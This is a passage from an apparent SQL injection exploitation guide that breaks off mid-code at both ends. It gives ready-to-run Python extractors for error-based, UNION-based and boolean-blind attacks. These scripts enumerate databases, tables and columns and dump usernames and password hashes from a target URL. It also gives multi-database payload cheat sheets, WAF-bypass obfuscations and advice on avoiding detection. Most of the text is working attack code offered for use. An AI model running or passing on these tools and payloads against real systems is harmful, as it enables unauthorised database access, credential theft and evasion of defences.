                query = f"SELECT TOP 1 {concat_cols} FROM {table_name} ORDER BY (SELECT NULL) OFFSET {i} ROWS"
            elif self.db_type == 'Oracle':
                query = f"SELECT {concat_cols} FROM (SELECT {concat_cols}, ROWNUM rn FROM {table_name}) WHERE rn={i+1}"
            
            record = self.extract_data(query)
            if record:
                records.append(record)
            else:
                break
        
        return records
    
    def full_extraction(self):
        """Perform complete database extraction"""
        print(f"{Fore.YELLOW}{'='*60}")
        print(f"{Fore.YELLOW}Error-Based SQL Injection Data Extraction")
        print(f"{Fore.YELLOW}{'='*60}\n")
        
        self.set_patterns()
        
        # Extract database name
        db_name = self.extract_database()
        print(f"\n{Fore.GREEN}[+] Database: {db_name}\n")
        
        # Extract tables
        tables = self.extract_tables()
        print(f"\n{Fore.GREEN}[+] Found {len(tables)} tables:")
        for table in tables:
            print(f"    - {table}")
        
        # Extract data from each table
        for table in tables:
            print(f"\n{Fore.CYAN}{'='*60}")
            print(f"{Fore.CYAN}Table: {table}")
            print(f"{Fore.CYAN}{'='*60}")
            
            # Get columns
            columns = self.extract_columns(table)
            print(f"\n{Fore.GREEN}[+] Columns: {', '.join(columns)}")
            
            # Get records
            records = self.extract_records(table, columns, limit=5)
            print(f"\n{Fore.GREEN}[+] Sample Records:")
            for i, record in enumerate(records, 1):
                print(f"    {i}. {record}")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser(description='Error-Based SQLi Data Extractor')
    parser.add_argument('-u', '--url', required=True, help='Target URL (up to injectable param)')
    parser.add_argument('-d', '--database', required=True, choices=['MySQL', 'PostgreSQL', 'MSSQL', 'Oracle'], help='Database type')
    
    args = parser.parse_args()
    
    extractor = ErrorBasedExtractor(args.url, args.database)
    extractor.full_extraction()
```

**Usage Example:**

```bash
# MySQL target
python error_extractor.py -u "http://target.com/page.php?id=" -d MySQL

# PostgreSQL target
python error_extractor.py -u "http://target.com/api/user?id=" -d PostgreSQL

# Output:
# ============================================================
# Error-Based SQL Injection Data Extraction
# ============================================================
# 
# [*] Extracting database name...
# [+] Extracted: webapp_db
# 
# [+] Database: webapp_db
# 
# [*] Extracting table names...
# [+] Extracted: users
# [+] Extracted: products
# [+] Extracted: orders
# 
# [+] Found 3 tables:
#     - users
#     - products
#     - orders
# 
# ============================================================
# Table: users
# ============================================================
# 
# [*] Extracting columns from users...
# [+] Extracted: id
# [+] Extracted: username
# [+] Extracted: password
# [+] Extracted: email
# 
# [+] Columns: id, username, password, email
# 
# [*] Extracting records from users...
# [+] Extracted: 1:admin:5f4dcc3b5aa765d61d8327deb882cf99:admin@site.com
# [+] Extracted: 2:user1:482c811da5d5b4bc6d497ffa98491e38:user1@site.com
# 
# [+] Sample Records:
#     1. 1:admin:5f4dcc3b5aa765d61d8327deb882cf99:admin@site.com
#     2. 2:user1:482c811da5d5b4bc6d497ffa98491e38:user1@site.com
```

### Error-Based Exploitation Tips

#### Best Practices

```
✅ DO:
  - Start with simple payloads
  - Understand error messages
  - Handle 32-char limit (MySQL)
  - Use LIMIT/OFFSET to iterate
  - Encode special characters
  - Log all extracted data

❌ DON'T:
  - Blindly copy payloads
  - Extract unnecessary data
  - Ignore character limits
  - Forget about WAF detection
  - Leave traces in logs
```

#### WAF Bypass for Error-Based

```sql
# Space bypass
' AND/**/extractvalue(1,concat(0x7e,version()))--
' AND%0Aextractvalue(1,concat(0x7e,version()))--

# Comment obfuscation
' /*!50000AND*/ extractvalue(1,concat(0x7e,version()))--

# Case variation
' AnD eXtRaCtVaLuE(1,cOnCaT(0x7e,vErSiOn()))--

# Encoding
' AND extractvalue(1,concat(CHAR(126),version()))--

# Alternative functions
' AND updatexml(null,concat(0x7e,version()),null)-- # Instead of extractvalue
```

---

## 🔗 Chapter 8: UNION-Based SQL Injection

### Understanding UNION-Based SQLi

**What is UNION-Based SQLi?**
- Combines results from multiple SELECT statements
- Most powerful SQLi technique when output is reflected
- Allows direct data extraction in application response
- Fast and reliable

**Requirements:**
```
1. Must have same number of columns
2. Data types must be compatible (or NULL)
3. Results must be displayed in application
```

### The UNION Operator

**Basic SQL UNION Syntax:**

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2
```

**Normal vs Malicious UNION:**

```sql
# Normal query
SELECT id, name, price FROM products WHERE id = 5

# With UNION injection
SELECT id, name, price FROM products WHERE id = 5
UNION
SELECT username, password, email FROM users
```

### Step-by-Step UNION Exploitation

#### Step 1: Determine Number of Columns

**Method 1: ORDER BY Technique**

```sql
# Test incrementally
' ORDER BY 1--    ✓ Success
' ORDER BY 2--    ✓ Success  
' ORDER BY 3--    ✓ Success
' ORDER BY 4--    ✗ Error → 3 columns!
```

**Full Example:**

```
URL: http://shop.com/product.php?id=5

Tests:
  ?id=5' ORDER BY 1--   → Page loads normally
  ?id=5' ORDER BY 2--   → Page loads normally
  ?id=5' ORDER BY 3--   → Page loads normally
  ?id=5' ORDER BY 4--   → Error: "Unknown column '4' in 'order clause'"
  
Conclusion: 3 columns in SELECT statement
```

**Method 2: NULL Columns Technique**

```sql
# Start with one NULL
' UNION SELECT NULL--           ✗ Error
' UNION SELECT NULL,NULL--      ✗ Error
' UNION SELECT NULL,NULL,NULL-- ✓ Success → 3 columns!
```

**Why NULL?**
- NULL is compatible with all data types
- Avoids type mismatch errors
- Works across all databases

**Binary Search Optimization:**

```python
def find_column_count(url, param):
    """Find number of columns using binary search"""
    
    low, high = 1, 20
    columns = 0
    
    while low <= high:
        mid = (low + high) // 2
        payload = f"{param}' ORDER BY {mid}--"
        
        response = requests.get(f"{url}?id={payload}")
        
        if "error" in response.text.lower() or response.status_code == 500:
            high = mid - 1
        else:
            columns = mid
            low = mid + 1
    
    print(f"[+] Number of columns: {columns}")
    return columns
```

#### Step 2: Find Injectable Columns

**Identify which columns are displayed:**

```sql
# Test with distinct values
' UNION SELECT 'a','b','c'--
' UNION SELECT 1,2,3--
' UNION SELECT NULL,'test',NULL--
```

**Visual Example:**

```html
Original page shows:
  Product ID: 5
  Product Name: Laptop
  Product Price: $999

With injection: ?id=5' UNION SELECT 1,2,3--
  Product ID: 1
  Product Name: 2
  Product Price: 3
  
Conclusion: All 3 columns are displayed!
```

**When some columns are not displayed:**

```sql
' UNION SELECT NULL,'visible1',NULL--       → Shows in column 2
' UNION SELECT 'visible2',NULL,NULL--       → Shows in column 1
' UNION SELECT NULL,NULL,'not_visible'--    → Not displayed

Use columns 1 and 2 for data extraction!
```

#### Step 3: Extract Database Information

**Version Information:**

```sql
# MySQL
' UNION SELECT NULL,@@version,NULL--
' UNION SELECT NULL,version(),NULL--

# PostgreSQL  
' UNION SELECT NULL,version(),NULL--

# MSSQL
' UNION SELECT NULL,@@version,NULL--

# Oracle (requires FROM clause)
' UNION SELECT NULL,banner,NULL FROM v$version--
```

**Current Database:**

```sql
# MySQL
' UNION SELECT NULL,database(),NULL--

# PostgreSQL
' UNION SELECT NULL,current_database(),NULL--

# MSSQL
' UNION SELECT NULL,DB_NAME(),NULL--

# Oracle
' UNION SELECT NULL,SYS.DATABASE_NAME,NULL FROM dual--
```

**Current User:**

```sql
# MySQL
' UNION SELECT NULL,user(),NULL--
' UNION SELECT NULL,current_user(),NULL--

# PostgreSQL
' UNION SELECT NULL,current_user,NULL--

# MSSQL
' UNION SELECT NULL,SYSTEM_USER,NULL--
' UNION SELECT NULL,USER_NAME(),NULL--

# Oracle
' UNION SELECT NULL,user,NULL FROM dual--
```

#### Step 4: Enumerate Database Schema

**List All Databases:**

```sql
# MySQL
' UNION SELECT NULL,schema_name,NULL FROM information_schema.schemata--
' UNION SELECT NULL,GROUP_CONCAT(schema_name),NULL FROM information_schema.schemata--

# PostgreSQL
' UNION SELECT NULL,datname,NULL FROM pg_database--
' UNION SELECT NULL,string_agg(datname,','),NULL FROM pg_database--

# MSSQL
' UNION SELECT NULL,name,NULL FROM sys.databases--
' UNION SELECT NULL,STRING_AGG(name,','),NULL FROM sys.databases--

# Oracle
' UNION SELECT NULL,LISTAGG(tablespace_name,','),NULL FROM user_tablespaces--
```

**List Tables in Current Database:**

```sql
# MySQL
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema=database()--

# Get all tables at once
' UNION SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables WHERE table_schema=database()--

# PostgreSQL
' UNION SELECT NULL,tablename,NULL FROM pg_tables WHERE schemaname='public'--
' UNION SELECT NULL,string_agg(tablename,','),NULL FROM pg_tables WHERE schemaname='public'--

# MSSQL
' UNION SELECT NULL,name,NULL FROM sys.tables--
' UNION SELECT NULL,STRING_AGG(name,','),NULL FROM sys.tables--

# Oracle
' UNION SELECT NULL,table_name,NULL FROM all_tables WHERE owner='SCHEMA_NAME'--
' UNION SELECT NULL,LISTAGG(table_name,','),NULL FROM all_tables WHERE owner=user--
```

**List Columns in Specific Table:**

```sql
# MySQL
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT NULL,GROUP_CONCAT(column_name),NULL FROM information_schema.columns WHERE table_name='users'--

# PostgreSQL
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--

# MSSQL
' UNION SELECT NULL,name,NULL FROM sys.columns WHERE object_id=OBJECT_ID('users')--

# Oracle
' UNION SELECT NULL,column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--
```

#### Step 5: Extract Sensitive Data

**Extract User Credentials:**

```sql
# MySQL - Single row
' UNION SELECT NULL,username,password FROM users LIMIT 0,1--

# MySQL - All rows (concatenated)
' UNION SELECT NULL,GROUP_CONCAT(username,0x3a,password),NULL FROM users--
# Result: admin:hash1,user1:hash2,user2:hash3

# MySQL - Multiple columns
' UNION SELECT NULL,concat_ws(':',id,username,email,password),NULL FROM users--

# PostgreSQL
' UNION SELECT NULL,username||':'||password,NULL FROM users OFFSET 0 LIMIT 1--
' UNION SELECT NULL,string_agg(username||':'||password,','),NULL FROM users--

# MSSQL
' UNION SELECT NULL,username+':'+password,NULL FROM users--
' UNION SELECT NULL,STRING_AGG(username+':'+password,','),NULL FROM users--

# Oracle
' UNION SELECT NULL,username||':'||password,NULL FROM users WHERE rownum=1--
' UNION SELECT NULL,LISTAGG(username||':'||password,','),NULL FROM users--
```

**Extract with Multiple Rows (Iterating):**

```sql
# MySQL
' UNION SELECT NULL,username,password FROM users LIMIT 0,1--  # First row
' UNION SELECT NULL,username,password FROM users LIMIT 1,1--  # Second row
' UNION SELECT NULL,username,password FROM users LIMIT 2,1--  # Third row

# PostgreSQL
' UNION SELECT NULL,username,password FROM users OFFSET 0 LIMIT 1--
' UNION SELECT NULL,username,password FROM users OFFSET 1 LIMIT 1--

# MSSQL
' UNION SELECT NULL,username,password FROM users ORDER BY id OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY--
' UNION SELECT NULL,username,password FROM users ORDER BY id OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY--

# Oracle
' UNION SELECT NULL,username,password FROM (SELECT username,password,ROWNUM rn FROM users) WHERE rn=1--
' UNION SELECT NULL,username,password FROM (SELECT username,password,ROWNUM rn FROM users) WHERE rn=2--
```

### Advanced UNION Techniques

#### Technique 1: Handling Different Data Types

**Problem:** Incompatible data types cause errors

```sql
# Convert everything to strings
# MySQL
' UNION SELECT NULL,CAST(id AS CHAR),CAST(created_at AS CHAR) FROM users--

# PostgreSQL
' UNION SELECT NULL,id::text,created_at::text FROM users--

# MSSQL
' UNION SELECT NULL,CAST(id AS varchar),CONVERT(varchar,created_at) FROM users--

# Oracle
' UNION SELECT NULL,TO_CHAR(id),TO_CHAR(created_at) FROM users--
```

#### Technique 2: Extracting Binary/BLOB Data

**Encode binary data for display:**

```sql
# MySQL - Hex encoding
' UNION SELECT NULL,HEX(password_hash),NULL FROM users--

# MySQL - Base64 encoding
' UNION SELECT NULL,TO_BASE64(password_hash),NULL FROM users--

# PostgreSQL
' UNION SELECT NULL,encode(password_hash,'hex'),NULL FROM users--
' UNION SELECT NULL,encode(password_hash,'base64'),NULL FROM users--

# MSSQL
' UNION SELECT NULL,CONVERT(varchar(max),password_hash,2),NULL FROM users--
# 2 = hex format without 0x prefix
```

#### Technique 3: Bypassing Character Limits

**When extracted data is truncated:**

```sql
# Extract in chunks using SUBSTRING
# MySQL
' UNION SELECT NULL,SUBSTRING(password,1,50),NULL FROM users LIMIT 0,1--
' UNION SELECT NULL,SUBSTRING(password,51,50),NULL FROM users LIMIT 0,1--

# PostgreSQL
' UNION SELECT NULL,SUBSTRING(password FROM 1 FOR 50),NULL FROM users LIMIT 1--

# MSSQL
' UNION SELECT NULL,SUBSTRING(password,1,50),NULL FROM users--

# Oracle
' UNION SELECT NULL,SUBSTR(password,1,50),NULL FROM users WHERE rownum=1--
```

#### Technique 4: Multi-Database Extraction

**Extract data from all databases at once:**

```sql
# MySQL
' UNION SELECT NULL,CONCAT(table_schema,':',table_name),NULL FROM information_schema.tables--

# Get all columns from all tables
' UNION SELECT NULL,CONCAT(table_schema,'.',table_name,'.',column_name),NULL FROM information_schema.columns--
```

### Complete UNION-Based Extraction Script

```python
#!/usr/bin/env python3
"""
UNION-Based SQL Injection Automated Extractor
Full database extraction through UNION technique
"""

import requests
import sys
from urllib.parse import quote
from colorama import Fore, Style, init
from time import sleep

init(autoreset=True)

class UnionExtractor:
    def __init__(self, url, db_type='MySQL'):
        self.url = url
        self.db_type = db_type
        self.columns = 0
        self.injectable_columns = []
        
    def test_injection(self, payload):
        """Send injection payload and return response"""
        try:
            full_url = f"{self.url}{quote(payload)}"
            response = requests.get(full_url, timeout=10)
            return response
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def find_columns_orderby(self):
        """Find number of columns using ORDER BY"""
        print(f"{Fore.CYAN}[*] Finding number of columns...")
        
        for i in range(1, 21):
            payload = f"' ORDER BY {i}--"
            response = self.test_injection(payload)
            
            if not response or response.status_code == 500 or 'error' in response.text.lower():
                self.columns = i - 1
                print(f"{Fore.GREEN}[+] Found {self.columns} columns")
                return self.columns
            
            print(f"  Testing {i} columns...", end='\r')
            sleep(0.1)
        
        print(f"{Fore.RED}[-] Could not determine column count")
        return 0
    
    def find_injectable_columns(self):
        """Identify which columns are displayed in the response"""
        print(f"{Fore.CYAN}[*] Finding injectable columns...")
        
        # Create NULL payload
        nulls = ','.join(['NULL'] * self.columns)
        
        # Test each column position
        for i in range(self.columns):
            test_value = f"'TEST{i}'"
            columns_list = ['NULL'] * self.columns
            columns_list[i] = test_value
            
            payload = f"' UNION SELECT {','.join(columns_list)}--"
            response = self.test_injection(payload)
            
            if response and f'TEST{i}' in response.text:
                self.injectable_columns.append(i)
                print(f"{Fore.GREEN}[+] Column {i+1} is injectable")
        
        if not self.injectable_columns:
            print(f"{Fore.RED}[-] No injectable columns found")
            return False
        
        return True
    
    def build_union_payload(self, injection_dict):
        """Build UNION SELECT payload with injections"""
        columns_list = ['NULL'] * self.columns
        
        for col_idx, value in injection_dict.items():
            if col_idx in self.injectable_columns:
                columns_list[col_idx] = value
        
        payload = f"' UNION SELECT {','.join(columns_list)}--"
        return payload
    
    def extract_info(self, query_dict):
        """Extract information using UNION"""
        payload = self.build_union_payload(query_dict)
        response = self.test_injection(payload)
        
        if response:
            return response.text
        return None
    
    def get_database_version(self):
        """Extract database version"""
        print(f"{Fore.CYAN}[*] Extracting database version...")
        
        version_queries = {
            'MySQL': '@@version',
            'PostgreSQL': 'version()',
            'MSSQL': '@@version',
            'Oracle': 'banner FROM v$version WHERE rownum=1'
        }
        
        query = version_queries.get(self.db_type, '@@version')
        
        if self.db_type == 'Oracle':
            injection = {self.injectable_columns[0]: f'(SELECT {query})'}
        else:
            injection = {self.injectable_columns[0]: query}
        
        response_text = self.extract_info(injection)
        
        # Parse version from response (simplified - would need regex in production)
        print(f"{Fore.GREEN}[+] Version query sent")
        return response_text
    
    def get_current_database(self):
        """Extract current database name"""
        print(f"{Fore.CYAN}[*] Extracting current database...")
        
        db_queries = {
            'MySQL': 'database()',
            'PostgreSQL': 'current_database()',
            'MSSQL': 'DB_NAME()',
            'Oracle': 'SYS.DATABASE_NAME FROM dual'
        }
        
        query = db_queries.get(self.db_type, 'database()')
        
        if self.db_type == 'Oracle':
            injection = {self.injectable_columns[0]: f'(SELECT {query})'}
        else:
            injection = {self.injectable_columns[0]: query}
        
        self.extract_info(injection)
    
    def get_tables(self):
        """Extract table names"""
        print(f"{Fore.CYAN}[*] Extracting table names...")
        
        table_queries = {
            'MySQL': "GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()",
            'PostgreSQL': "string_agg(tablename,',') FROM pg_tables WHERE schemaname='public'",
            'MSSQL': "STRING_AGG(name,',') FROM sys.tables",
            'Oracle': "LISTAGG(table_name,',') FROM all_tables WHERE owner=user"
        }
        
        query = table_queries.get(self.db_type)
        
        if self.db_type == 'Oracle':
            injection = {self.injectable_columns[0]: f'(SELECT {query})'}
        else:
            injection = {self.injectable_columns[0]: query}
        
        self.extract_info(injection)
    
    def get_columns(self, table_name):
        """Extract column names from specific table"""
        print(f"{Fore.CYAN}[*] Extracting columns from {table_name}...")
        
        column_queries = {
            'MySQL': f"GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='{table_name}'",
            'PostgreSQL': f"string_agg(column_name,',') FROM information_schema.columns WHERE table_name='{table_name}'",
            'MSSQL': f"STRING_AGG(name,',') FROM sys.columns WHERE object_id=OBJECT_ID('{table_name}')",
            'Oracle': f"LISTAGG(column_name,',') FROM all_tab_columns WHERE table_name='{table_name.upper()}'"
        }
        
        query = column_queries.get(self.db_type)
        
        if self.db_type == 'Oracle':
            injection = {self.injectable_columns[0]: f'(SELECT {query})'}
        else:
            injection = {self.injectable_columns[0]: query}
        
        self.extract_info(injection)
    
    def get_data(self, table_name, columns):
        """Extract data from table"""
        print(f"{Fore.CYAN}[*] Extracting data from {table_name}...")
        
        if self.db_type == 'MySQL':
            concat_expr = f"GROUP_CONCAT(CONCAT_WS(':',{','.join(columns)}))"
            query = f"{concat_expr} FROM {table_name}"
        elif self.db_type == 'PostgreSQL':
            concat_expr = f"string_agg({' || '.join([f'{col}::text' for col in columns])},',')"
            query = f"{concat_expr} FROM {table_name}"
        elif self.db_type == 'MSSQL':
            concat_expr = f"STRING_AGG({'+''.join([f'ISNULL({col},'''')' for col in columns])},',')"
            query = f"{concat_expr} FROM {table_name}"
        else:  # Oracle
            concat_expr = f"LISTAGG({'||'.join(columns)},',')"
            query = f"{concat_expr} FROM {table_name}"
        
        injection = {self.injectable_columns[0]: query}
        self.extract_info(injection)
    
    def run(self):
        """Execute full extraction process"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}UNION-Based SQL Injection Data Extractor")
        print(f"{Fore.YELLOW}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}")
        print(f"{Fore.CYAN}Database: {self.db_type}\n")
        
        # Step 1: Find columns
        if not self.find_columns_orderby():
            print(f"{Fore.RED}[!] Exploitation failed: Could not determine columns")
            return
        
        # Step 2: Find injectable columns
        if not self.find_injectable_columns():
            print(f"{Fore.RED}[!] Exploitation failed: No injectable columns")
            return
        
        # Step 3: Extract database information
        self.get_database_version()
        self.get_current_database()
        
        # Step 4: Extract schema
        self.get_tables()
        
        # Step 5: For demonstration, extract from 'users' table if it exists
        print(f"\n{Fore.CYAN}[*] Attempting to extract from 'users' table...")
        self.get_columns('users')
        self.get_data('users', ['username', 'password', 'email'])
        
        print(f"\n{Fore.GREEN}[+] Extraction complete!")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser(description='UNION-Based SQLi Extractor')
    parser.add_argument('-u', '--url', required=True, help='Target URL (up to injectable param)')
    parser.add_argument('-d', '--database', default='MySQL', 
                       choices=['MySQL', 'PostgreSQL', 'MSSQL', 'Oracle'],
                       help='Database type')
    
    args = parser.parse_args()
    
    extractor = UnionExtractor(args.url, args.database)
    extractor.run()
```

### UNION Injection Cheat Sheet

#### Quick Reference Table

| Task | MySQL | PostgreSQL | MSSQL | Oracle |
|------|-------|------------|-------|--------|
| **Concat strings** | `CONCAT(a,b)` or `a||b` | `a\|\|b` | `a+b` | `a\|\|b` or `CONCAT(a,b)` |
| **Group results** | `GROUP_CONCAT()` | `string_agg()` | `STRING_AGG()` | `LISTAGG()` |
| **Limit results** | `LIMIT n` | `LIMIT n` | `TOP n` | `rownum=n` |
| **String to hex** | `HEX()` | `encode(,'hex')` | `CONVERT(,2)` | `RAWTOHEX()` |
| **Sleep function** | `SLEEP(n)` | `pg_sleep(n)` | `WAITFOR DELAY` | `DBMS_LOCK.SLEEP(n)` |
| **Version** | `@@version` | `version()` | `@@version` | `banner FROM v$version` |
| **Database** | `database()` | `current_database()` | `DB_NAME()` | `SYS.DATABASE_NAME` |
| **User** | `user()` | `current_user` | `SYSTEM_USER` | `user FROM dual` |

### Common UNION Pitfalls & Solutions

#### Problem 1: Different Number of Columns

```sql
Error: The used SELECT statements have a different number of columns

Solution: Count columns carefully
  - Use ORDER BY
  - Verify with NULL technique
  - Match exactly
```

#### Problem 2: Data Type Mismatch

```sql
Error: Conversion failed / Type mismatch

Solution: Cast to compatible type
  MySQL: CAST(column AS CHAR)
  PostgreSQL: column::text
  MSSQL: CAST(column AS varchar)
  Oracle: TO_CHAR(column)
```

#### Problem 3: No Results Displayed

```sql
Problem: UNION query executes but no data visible

Solutions:
  1. Make original query return no results
     ' AND 1=0 UNION SELECT...
     
  2. Use negative ID
     ?id=-1' UNION SELECT...
     
  3. Check if columns are actually displayed
```

#### Problem 4: WAF Blocking UNION

```sql
# Obfuscation techniques
' /*!50000UNION*/ /*!50000SELECT*/...
' UNION/*comment*/SELECT/*comment*/...
' UNI%0AON SE%0ALECT...
' %55NION %53ELECT... (URL encoded)
```

## 🔮 Chapter 9: Blind SQL Injection

### Understanding Blind SQLi

**What is Blind SQLi?**

Unlike classic SQLi where you see database output directly, Blind SQLi occurs when:
- No error messages are displayed
- No data is reflected in the response
- Application behavior changes subtly

**The Challenge:**
```
Classic SQLi:  "Here's the data: admin:password123"
Blind SQLi:    "Something changed... but what?"
```

**Types of Blind SQLi:**
```
1. Boolean-Based Blind
   - Application response differs based on TRUE/FALSE
   - Extract data one bit/character at a time

2. Time-Based Blind
   - No visible difference in response
   - Use time delays to infer TRUE/FALSE
   
3. Out-of-Band Blind
   - Use external channel (DNS, HTTP)
   - Exfiltrate data through side channels
```

### Boolean-Based Blind SQLi

#### The Concept

```
Scenario: Search page returns products

Normal:     ?search=laptop     → Shows laptops
Injected:   ?search=laptop' AND 1=1--  → Shows laptops (TRUE)
Injected:   ?search=laptop' AND 1=2--  → Shows nothing (FALSE)

CONCLUSION: We can ask YES/NO questions!
```

**What we can determine:**
```
TRUE Response:  - Page loads normally
                - Specific content appears
                - HTTP 200 status
                - Same response length
                
FALSE Response: - Different page content
                - Content missing
                - Different HTTP status
                - Different response length
```

#### Basic Boolean Payloads

```sql
# Basic true/false tests
' AND 1=1--         # TRUE
' AND 1=2--         # FALSE
' AND 'a'='a'--     # TRUE
' AND 'a'='b'--     # FALSE

# Numeric contexts
1 AND 1=1           # TRUE
1 AND 1=2           # FALSE

# String contexts
admin' AND '1'='1   # TRUE
admin' AND '1'='2   # FALSE
```

#### Extracting Data Boolean-Based

**Step 1: Determine Database Length**

```sql
# MySQL - Check if database name length > N
' AND LENGTH(database())>0--   # Almost always TRUE
' AND LENGTH(database())>5--   # TRUE/FALSE?
' AND LENGTH(database())>10--  # TRUE/FALSE?

# Binary search approach
' AND LENGTH(database())>8--   # If FALSE → length <= 8
' AND LENGTH(database())>4--   # If TRUE  → 4 < length <= 8
' AND LENGTH(database())>6--   # If TRUE  → 6 < length <= 8
' AND LENGTH(database())>7--   # If FALSE → length = 7 or 8
' AND LENGTH(database())=7--   # If TRUE  → length = 7
```

**Step 2: Extract Characters One by One**

```sql
# Extract first character
' AND SUBSTRING(database(),1,1)='a'--   # TRUE/FALSE
' AND SUBSTRING(database(),1,1)='b'--   # TRUE/FALSE
...continue through alphabet...

# Using ASCII values (more efficient)
' AND ASCII(SUBSTRING(database(),1,1))>96--   # Is it lowercase letter?
' AND ASCII(SUBSTRING(database(),1,1))>109--  # Is it m-z?
' AND ASCII(SUBSTRING(database(),1,1))=115--  # Is it 's'?

# Extract second character
' AND ASCII(SUBSTRING(database(),2,1))=104--  # Is it 'h'?

# Full database name extraction: "shopdb"
```

**Step 3: Extract Table Names**

```sql
# Find number of tables
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>0--
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5--
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=8--

# Extract first table name length
' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))>5--

# Extract first table name character by character
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))=117-- # 'u'
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),2,1))=115-- # 's'
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),3,1))=101-- # 'e'
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),4,1))=114-- # 'r'
' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),5,1))=115-- # 's'

# Table name: "users"
```

**Step 4: Extract Column Names**

```sql
# Count columns in users table
' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users')>3--

# Extract column names
' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),1,1))=105-- # 'i'
' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),2,1))=100-- # 'd'

# Column 1: "id"

' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1),1,1))=117-- # 'u'
# Column 2: "username"

' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 2,1),1,1))=112-- # 'p'
# Column 3: "password"
```

**Step 5: Extract Actual Data**

```sql
# Extract admin password character by character
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=53--   # '5'
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),2,1))=102--  # 'f'
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),3,1))=52--   # '4'
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),4,1))=100--  # 'd'
...

# Password hash: "5f4dcc3b5aa765d61d8327deb882cf99"
```

#### Complete Boolean-Based Extraction Script

```python
#!/usr/bin/env python3
"""
Boolean-Based Blind SQL Injection Data Extractor
Extracts data character by character through TRUE/FALSE inference
"""

import requests
import string
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed
from colorama import Fore, Style, init
import argparse
import time

init(autoreset=True)

class BooleanBlindExtractor:
    def __init__(self, url, true_indicator, method='GET', data=None, 
                 cookies=None, threads=10):
        self.url = url
        self.true_indicator = true_indicator
        self.method = method
        self.data = data or {}
        self.cookies = cookies or {}
        self.threads = threads
        self.charset = string.ascii_letters + string.digits + "!@#$%^&*()_+-={}[]|:;<>?,.~`"
        self.session = requests.Session()
        self.request_count = 0
        
    def send_payload(self, payload):
        """Send injection payload and check response"""
        self.request_count += 1
        
        try:
            if self.method == 'GET':
                response = self.session.get(
                    f"{self.url}{payload}",
                    cookies=self.cookies,
                    timeout=10
                )
            else:
                data = self.data.copy()
                # Inject into first parameter
                for key in data:
                    data[key] = f"{data[key]}{payload}"
                    break
                    
                response = self.session.post(
                    self.url,
                    data=data,
                    cookies=self.cookies,
                    timeout=10
                )
            
            return self.true_indicator in response.text
            
        except Exception as e:
            print(f"{Fore.RED}[!] Request error: {str(e)}")
            return None
    
    def check_injectable(self):
        """Verify boolean-based SQLi exists"""
        print(f"{Fore.CYAN}[*] Testing for Boolean-based Blind SQLi...")
        
        # Test TRUE condition
        true_result = self.send_payload("' AND 1=1--")
        
        # Test FALSE condition
        false_result = self.send_payload("' AND 1=2--")
        
        if true_result and not false_result:
            print(f"{Fore.GREEN}[+] Boolean-based Blind SQLi confirmed!")
            return True
        elif true_result is None or false_result is None:
            print(f"{Fore.YELLOW}[!] Connection issues, but continuing...")
            return True
        else:
            print(f"{Fore.RED}[-] Boolean-based Blind SQLi not detected")
            return False
    
    def extract_length(self, query):
        """Extract length of a value using binary search"""
        low, high = 0, 100
        
        while low < high:
            mid = (low + high + 1) // 2
            payload = f"' AND LENGTH(({query}))>={mid}--"
            
            if self.send_payload(payload):
                low = mid
            else:
                high = mid - 1
        
        return low
    
    def extract_char_binary(self, query, position):
        """Extract single character using binary search on ASCII value"""
        low, high = 32, 126  # Printable ASCII range
        
        while low < high:
            mid = (low + high + 1) // 2
            payload = f"' AND ASCII(SUBSTRING(({query}),{position},1))>={mid}--"
            
            if self.send_payload(payload):
                low = mid
            else:
                high = mid - 1
        
        return chr(low) if low > 32 else None
    
    def extract_char_bruteforce(self, query, position, char):
        """Test single character at position"""
        payload = f"' AND SUBSTRING(({query}),{position},1)='{char}'--"
        return self.send_payload(payload)
    
    def extract_value_binary(self, query, description="value"):
        """Extract complete value using binary search method"""
        print(f"{Fore.CYAN}[*] Extracting {description}...")
        
        # First get length
        length = self.extract_length(query)
        
        if length == 0:
            print(f"{Fore.YELLOW}[!] Empty value or extraction failed")
            return ""
        
        print(f"{Fore.GREEN}[+] Length: {length}")
        
